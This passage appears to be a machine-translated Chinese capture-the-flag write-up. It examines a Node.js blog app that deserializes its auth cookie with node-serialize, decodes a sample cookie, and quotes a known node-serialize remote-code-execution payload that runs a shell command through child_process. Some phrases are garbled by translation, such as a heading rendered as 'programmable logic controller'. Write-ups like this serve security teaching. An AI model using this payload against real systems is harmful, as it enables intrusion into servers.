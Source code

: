     mongoose.connect('mongodb://localhost/blog')
    
    app.set('view engine', 'ejs')
    app.use(express.urlencoded({ extended: false }))
    app.use(methodOverride('_method'))
    app.use(fileUpload())
    app.use(express.json());
    app.use(cookieParser());
    //app.use(session({secret: "UHC-SecretKey-123"}));
    
    function authenticated(c) {
        if (typeof c == 'undefined')
            return false
    
        c = serialize.unserialize(c)
    
        if (c.sign == (crypto.createHash('md5').update(cookie_secret + c.user).digest('hex')) ){
            return true
        } else {
            return false
        }
    }
    
    
    app.get('/', async (req, res) => {
        const articles = await Article.find().sort({
            createdAt: 'desc'
        })
        res.render('articles/index', { articles: articles, ip: req.socket.remoteAddress, authenticated: authenticated(req.cookies.auth) })
    })
    
    app.use('/articles', articleRouter)
    app.use('/login', loginRouter)
    
    
    app.listen(5000)
    

对我来说，这是的导入，这意味着正在使用序列化，这始终是一条有风险的道路。`node-serialize`

该函数正在 被调用，这可能是 cookie。看看饼干，它显然是网址编码的 JSON：`unserialize``c`

    %7B%22user%22%3A%22admin%22%2C%22sign%22%3A%2223e112072945418601deb47d9a6c7de8%22%7D
    

这将解码为：

    {"user":"admin","sign":"23e112072945418601deb47d9a6c7de8"}
    

值得注意的是，Cookie中的所有非字母/数字都是URL编码的。

#### 利用可编程逻辑控制器

[这篇博客文章](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)很好地编写了利用节点序列化的路径。他们给出的示例有效负载是：

    {"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('ls /',
    function(error, stdout, stderr) { console.log(stdout) });}()"}
    